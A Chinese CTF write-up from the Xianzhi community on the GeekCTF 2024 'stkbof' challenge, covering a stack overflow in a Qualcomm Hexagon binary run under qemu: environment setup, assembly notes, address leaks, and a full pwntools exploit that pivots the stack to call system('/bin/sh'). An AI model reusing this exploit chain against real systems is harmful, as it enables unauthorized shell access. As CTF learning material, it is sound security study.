


# 『2024GeekCTF』stkbof-初识hexagon架构PWN-先知社区

> **来源**: https://xz.aliyun.com/news/16132  
> **文章ID**: 16132

---

## 前言

最近在找点新的东西学，翻着翻着找到这道题，稀罕物，所以想着学一学。hexagon架构的pwn题很少见，网上资料也很少，好在题目附件给了源码，可以对照着汇编来学习，类比一下应该不算太难学。

## 环境准备

### 省流

一共需要准备两样东西：IDA对于hexagon架构处理器反编译的[插件](https://github.com/n-o-o-n/idp_hexagon/releases/download/v5.4/hexagon-ida83-v5.4.7z)和qemu-hexagon，将题目给出的libc.so软链接到/lib目录下作ld。

### IDA的hexagon反编译插件

插件很好找：hexagon架构处理器反编译的插件，解压之后dll放到IDA8.3（及以下版本）的procs文件夹内即可。需要注意的是这个程序是32位的，这个插件也只为32位服务，因此尽管是8.3版本，也要单独打开ida.exe才能识别到这个hexagon的插件。

### qemu-hexagon

qemu这里就比较难受了。qemu-user就不用说了肯定得有的，但是实际运行之后发现还少点东西：

```
qemu-hexagon: Could not open '/lib/ld-musl-hexagon.so.1': No such file or directory

```

本来我想仿照arm或者mips架构去找gnu包下载，忽然想到不对劲，高通本身就有一套sdk，没道理继续使用gcc的。事实就是在ubuntu中用apt search了一下hexagon，确实就没几个相关的包。然后去quic（高通的github）翻了一会，找到了[hexagon的toolchain](https://github.com/quic/toolchain_for_hexagon)，release中有针对x86\_64linux量身打造的hexagon musl前后端编译工具。压缩包5.9G，然后这玩意解压出来有50个G……在target/lib文件夹下可以找到`ld-musl-hexagon.so.1`，把他cp到/lib里，然后程序终于可以运行了。。。然后后面发现泄露出来的libc地址怎么也和题目给出来的libc.so的偏移对不上号。如果把解压出来的libc.so替换附件给的libc那就没问题了，所以怀疑是ld和libc版本不一样（因为我下载的是最新版的release）。然后我发现解压的文件中libc和ld文件大小一样，计算发现md5值也是一样的，这也就意味着我只要把libc.so软链接到lib文件夹就可以了，根本不用去下载toolchain。

```
ln -sf /path/to/your/libc.so /lib/ld-musl-hexagon.so.1

```

### Docker的拉取问题

在解决这个问题之后，我们先来说说dockerfile的问题。这道题给的docker使用fedora构建，但是构建的时候元数据可以下载下来，但是主要的包却死活拉不下来。解决办法是，从dockerhub的标签进到github仓库，找到[这个包](https://github.com/fedora-cloud/docker-brew-fedora/blob/2317ae452755c2e2107df65560bce2772b1b45b9/x86_64/fedora-39-x86_64.tar.xz)然后通过浏览器下载下来，与它在同一目录下的dockerfile也下载下来，然后在本地利用这个dockerfile构建fedora的镜像。这样一来，其他使用 fedora:39 的docker就可以直接从本地拉取。

## 部分汇编解析

还是老样子，几乎找不到资料，好在题目给出了源码，我们可以结合源码分析汇编指令。虽然有点小题大做，但是网上可以下载到高通的[开发者手册](https://origin-developer.qualcomm.com/qfile/33880/80-n2040-36_b_hexagon_v62_prog_ref_manual.pdf)。这个开发者手册可以解决一些网上很难获得答案的问题。

装好插件之后打开IDA，发现hexagon的指令风格一眼看过去和arm非常像，所以就算不用找开发手册其实也能看个大概。

* mewm()类似于x86汇编中的[]，解引用。后面那个m有可能是h，代表halfword；d表示doubleword...
* {}括起来的语句会被并发执行，hexagon最多支持四指令并发
* 一共有32个32位通用寄存器，R0-R31。存在寄存器对，可以当做64位寄存器使用，如R0和R1可以合并成R1:0（R1和R2不行）。这个很有意思但不是我们要关注的。
* R29-R31是别名寄存器。R29是SP，R30是FP，R31是LR寄存器。如果接触过ARM汇编的话，这下你就该感叹：这下看懂了。SP是栈顶寄存器，FP是栈（底）寄存器，LR是储存返回地址的寄存器。
* 有32个控制寄存器，我们需要重点关注的是PC寄存器（别名C9）和LC、SA系列寄存器。后者是拿来给硬件循环计数用的。
* 栈结构与我们熟知的x86、arm没什么区别。但是开辟栈和销毁的方式不太一样。有类似canary的保护机制，还有加密返回地址的保护机制，key是存在专门的寄存器里面的。不过这道题没有涉及。
* hexagon用allocframe开辟栈帧：LR压栈，FP压栈，SP减去一定数值向低地址开辟，FP设置成指向旧FP的指针。deallocframe/dealloc\_return用于销毁栈帧/销毁栈帧并返回，从栈底取回FP和LR。说白了就是和x86或者arm一样的。
* 立即数和一些存放数据的寄存器前面会加一些井号，##表示必须用32位偏移量，#是必须不能用32位偏移量，没加井号意味着必要时才用32为偏移量。
* 函数传参按照寄存器编号顺序来使用，例如有四个参数就用R0-R3寄存器。  
    
  

## 题目分析&动调

### qemu-hexagon调试方法

先讲讲动调的问题。原本我尝试使用gdb-multiarch来调试，但是发现无论如何都会报错，估计是gdb-multiarch的问题，应该是有解决办法的但暂时懒得管了，先放一边。

```
**
ERROR:../../target/hexagon/gdbstub.c:33:hexagon_gdb_read_register: code should not be reached
Bail out! ERROR:../../target/hexagon/gdbstub.c:33:hexagon_gdb_read_register: code should not be reached
Segmentation fault (core dumped)

```

翻了翻[qemu的文档](https://www.qemu.org/docs/master/user/main.html)发现qemu是可以记录一些程序运行日志的。`-d`参数可以选择记录的内容，`-D`选择log输出的文件，`-dfilter`约束记录的指令地址范围。

qemu翻译执行指令并不是逐条指令进行的，而是会一坨执行翻译到一个TB（translation block）中，再以TB为单位去执行。所以qemu -d记录的日志也会以TB为单位呈现。根据记录下来的日志找到的规律，TB通常会以call、return之类的跳转语句划分。简单来说就是，正常来讲我们没法看到每一步的CPU上下文情况。

但是qemu也留了一手，-d参数中加上nochain，加上`-singlestep`参数就能看到逐指令的上下文了，但是这样的执行速度会下降许多，如果是大型项目调试的话，并不建议这么做。这里涉及到[qemu trace的原理](https://wangzhou.github.io/qemu跟踪CPU指令执行的逻辑/)，这里就不深入探究了，以后有机会再展开。

```
qemu-hexagon -L libc -d in_asm,exec,cpu,page,nochain -singlestep -dfilter 0x20400+0xc0 -strace -D ./log ./chall

```

这是我的调试运行命令，这样log日志中就会存有从0x20400到0x204c0（stkbof和main函数范围）逐行指令执行前的CPU寄存器情况，并且记录系统调用情况与其返回值。page参数会在log开头记录程序布局情况，但是有且仅能看到各地址段的权限情况，没法得知哪个段对应什么用处。

如果想调试自己的payload的，可以在脚本中写process，这样就会从脚本记录日志了。

```
from pwn import *

r = process(['qemu-hexagon', '-L', 'libc', '-d', 'in_asm,exec,cpu,nochain', '-singlestep',
            '-dfilter', '0x20400+0xc0', '-strace', '-D', './log', './chall'])

```

### 题目分析

题目就是给了个栈溢出可以劫持返回地址，然后我们得想办法getshell。不同于平常的题目，这道题我们看不到任何pop/push语句，也就是说我们想要传参，得考虑利用其他gadget。

#### 泄露栈/libc地址

众所周知qemu模拟执行一般情况下并没有aslr这种东西，chall程序本身也没开PIE保护，那就意味着栈地址、libc地址我们都可以直接利用调试泄露出来，然后一直用。我们运行调试命令，程序结束后我们查看log，找到执行到stkbof的部分，可以看到一行：

```
6275 read(0,0x4080ebe0,272) = 2
```

这是qemu记录下来的系统调用记录，6275是进程pid，等于号后面的是这个系统调用的返回值。显而易见输入点是0x4080ebe0，这就是我们泄露出来的栈地址。**请注意，不同环境下这个地址可能会改变。不同于题目运行于fedora，此log是基于ubuntu22的qemu运行的。**

因为程序调用动态链接库的函数在plt和got中转一手，并且我们约束了log范围，所以仅靠此时的log没法很直观的看出来libc地址。我们注意到plt表处的指令从got表取出了解析好的libc地址，储存在r28寄存器中并jumpr执行。

```
.plt:00020510 // int puts(const char *s)
.plt:00020510 puts:                                   // CODE XREF: main+8C↑p
.plt:00020510                 { r14 = add(pc, ##off_405D4@pcrel) }
.plt:00020518                 { r28 = memw(r14) }
.plt:0002051C                 { jumpr r28 }
.plt:0002051C // End of function puts
```

那也就是说在执行puts后r28寄存器应该会残留有puts的libc地址。我们在log找到相应的位置，查看r28寄存器的值：`r28 = 0x3ffa7c40`，同时我们看到libc.so中puts函数的偏移是0xD7C40，那么就可以得到libc的基址是0x3FED0000。

#### 传参

有了libc地址，system和binsh地址都会有了，现在要考虑如何给system传参。这里没有pop R0这样的gadget，只有给R0赋值的语句，考虑通过栈迁移的方式，利用栈给寄存器传参。0x204b4处有个取FP-8处数据赋值给R0的指令，并且紧接着就是return（插播一句，估计这个地方原本是利用R0作为函数返回值传参寄存器了）。return之后，程序会继续从新FP+4的位置开始执行。因此有以下思路：

1. 劫持FP为0x4080ebe0（输入点），LR为ret，那么接下来程序会从0x4080ebe4开始执行。并且因为刚才总共是执行了两次return，所以此时FP应该是0x4080ebe0内的数据。
2. 因为我们需要从FP-8来取值，因此我们需要控制FP为栈地址。这里写`0x4080ebe0+0x10`，那么`0x4080ebe0+0x10-0x8`处要写binsh的libc地址。
3. 又一次return后，程序将从`0x4080ebe0+0x14`处执行，所以这个地方要写上system的libc地址。

综上可以得到payload

```
stack = 0x4080ebe0
libc_base = 0x3FED0000
gadget1 = 0x204b4  # { r0 = memw(fp + #var_8) } { dealloc_return }
ret = 0x2041c  # { dealloc_return }

payload = p32(stack + 0x10)
payload += p32(gadget1)
payload += p32(libc_base + next(libc.search(b'/bin/sh\x00'))) + p32(0)+p32(0)
payload += p32(libc_base + libc.symbols['system'])
payload = payload.ljust(0x100, b'\x90')
payload += p32(stack)+p32(ret)

```

## EXP

```
from pwn import *

r = process(['qemu-hexagon', '-L', 'libc', '-d', 'in_asm,exec,cpu,nochain', '-singlestep',
            '-dfilter', '0x20400+0xc0', '-strace', '-D', './log', './chall'])
context(arch='amd64', os='linux', log_level='debug')
libc = ELF('./libc.so')

stack = 0x4080ebe0
libc_base = 0x3FED0000
gadget1 = 0x204b4  # { r0 = memw(fp + #var_8) } { dealloc_return }
ret = 0x2041c  # { dealloc_return }
# success(hex(libc_base+0x0012279))

payload = p32(stack + 0x10)
payload += p32(gadget1)
payload += p32(libc_base + next(libc.search(b'/bin/sh\x00'))) + p32(0)+p32(0)
payload += p32(libc_base + libc.symbols['system'])
payload = payload.ljust(0x100, b'\x90')
payload += p32(stack)+p32(ret)

r.recv()
r.send(payload)

r.interactive()

```
